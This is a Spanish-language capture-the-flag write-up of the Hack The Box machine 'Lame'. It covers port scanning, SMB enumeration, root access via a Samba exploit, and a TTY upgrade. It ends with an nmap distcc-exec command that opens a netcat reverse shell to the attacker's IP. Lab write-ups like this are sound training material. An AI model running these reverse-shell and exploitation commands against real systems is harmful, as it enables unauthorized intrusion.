 # Lame

Máquina **Lame** de dificultad **Easy**.

![](../../.gitbook/assets/htb\_lame.png)

## Enumeración

Primeramente realizamos un escaneo nmap rápido para averiguar los puertos abiertos.

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

![](../../.gitbook/assets/nmap\_1.png)

Vemos que tenemos abiertos los puertos 21, 22, 139, 445 y 3632. Realizamos ahora un escaneo mas completo a estos puertos para averiguar versiones y demás.

```
sudo nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```

![](../../.gitbook/assets/nmap\_2.png)

| Puerto | Servicio | Versión                  | Observaciones                     |
| ------ | -------- | ------------------------ | --------------------------------- |
| 21     | ftp      | vsftpd 2.3.4             | Permite acceso anónimo            |
| 22     | ssh      | OpenSSH 4.7p1            |                                   |
| 139    | smb      | Samba smbd 3.x-4-x       | No se determina la versión exacta |
| 445    | smb      | Samba smbd 3.0.20-Debian |                                   |
| 3632   | distccd  | distccd v1 4.2.4         |                                   |

Realizamos a continuación un reconocimiento para cada puerto.

### Reconocimiento FTP

Vemos que tenemos acceso anonimo. Vamos a ver si podemos obtener información y si tenemos permiso de escritura.

![](../../.gitbook/assets/ftp.png)

Vemos que no obtenemos ficheros ni podemos escribir con el usuario anónimo. De momento dejamos este servicio.

### Reconocimiento SMB

Enumeramos en detall el servicio SMB. Realizamos una enumeración utilizando **crackmapexec, smbmap y smbclient**.

![](../../.gitbook/assets/smb\_1.png)

Comprobamos con **crackmapexec** que es una máquina Unix de nombre  **LAME** y dominio **hackthebox.gr.**

Comprobamos con **smbmap** que existen vatios recursos compartidos, entre ellos **tmp** con permisos de escritura. Nos conectamos con **smbclient** a tmp pero no obtenemos mucho.

Comprobamos si existe algún exploit para esta versión de **SMB**.

![](../../.gitbook/assets/google\_1.png)

Vemos que hay varios. Vamos a intentar explotar esta vía.

## Explotación

Revisamos el script que hemos encontrado y vemos que nos indica como usarlo.

![](../../.gitbook/assets/exploit.png)

Nos descargamos el script y lo lanzamos como se nos indica. Previamente nos ponemos a la escucha por el puerto 443.

![](../../.gitbook/assets/explotacion.png)

Comprobamos que nos hemos conectado y que estamos en la maquina objetivo como **root**.

No tenemos pues que escalar privilegios. Hacemos un tratamiento de la tty con la siguiente secuencia de comandos:

```
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189
```

A continuación obtenemos las flags de user y de root.

![](../../.gitbook/assets/explotacion2.png)

Y damos la máquina por terminada.

## Otras formas de explotación

### Con SMBCLIENT

Buscamos exploit con searchexploit y encontramos uno de metasploit.&#x20;

![](../../.gitbook/assets/msf.png)

Lo examinamos y vemos que lanza un comando como username anteponiendo **nohup** en el usuario y ademas tiene que ser SBMv1.

![](../../.gitbook/assets/exp\_msf.png)

Podemos entonces lanzar lo mismo con smbclient.

![](../../.gitbook/assets/explotacion3.png)

### Explotando DISTCCC puerto 3632

Buscamos en Google "distccc exploit" y observamos que aparece en **hacktricks**.

![](../../.gitbook/assets/hacktricks.png)

Probamos con nmap como nos indica el articulo. En el comando ponemos la shell inversa.

```bash
nmap -p3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc 10.10.14.31 443 -e /bin/sh'"
```

